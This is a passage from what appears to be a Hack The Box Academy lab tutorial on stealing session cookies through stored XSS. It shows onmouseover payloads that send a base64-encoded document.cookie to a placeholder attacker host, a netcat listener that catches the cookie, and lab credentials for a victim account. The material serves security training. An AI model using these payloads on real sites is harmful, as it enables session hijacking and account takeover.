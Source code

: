 A sample HTTPS>HTTPS payload example can be found below:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>

```

**Simulate the victim**

Open a `New Private Window`, navigate to `http://xss.htb.net` and log in to the application using the credentials below:

- Email: smallfrog576
- Password: guitars

This account will play the role of the victim!

Now, navigate to `http://xss.htb.net/[email protected]`. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

You should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/52.png)

Terminate the PHP server with Ctrl+c, and the victim's cookie will reside inside `cookieLog.txt`

![image](https://academy.hackthebox.com/storage/modules/153/53.png)

You can now use this stolen cookie to hijack the victim's session!

* * *

## Obtaining session cookies via XSS (Netcat edition)

Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

Let us try that as well for completeness's sake.

Before we simulate the attack, let us place the below payload in the _Country_ field of Ela Stienen's profile and click "Save." There are no specific requirements for the payload. We just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>

```

Let us also instruct Netcat to listen on port 8000 as follows.

```shell
nc -nlvp 8000
listening on [any] 8000 ...

```

Open a `New Private Window` and navigate to `http://xss.htb.net/[email protected]`, simulating what the victim would do. We remind you that the above is an attacker-controlled public profile hosting a cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).
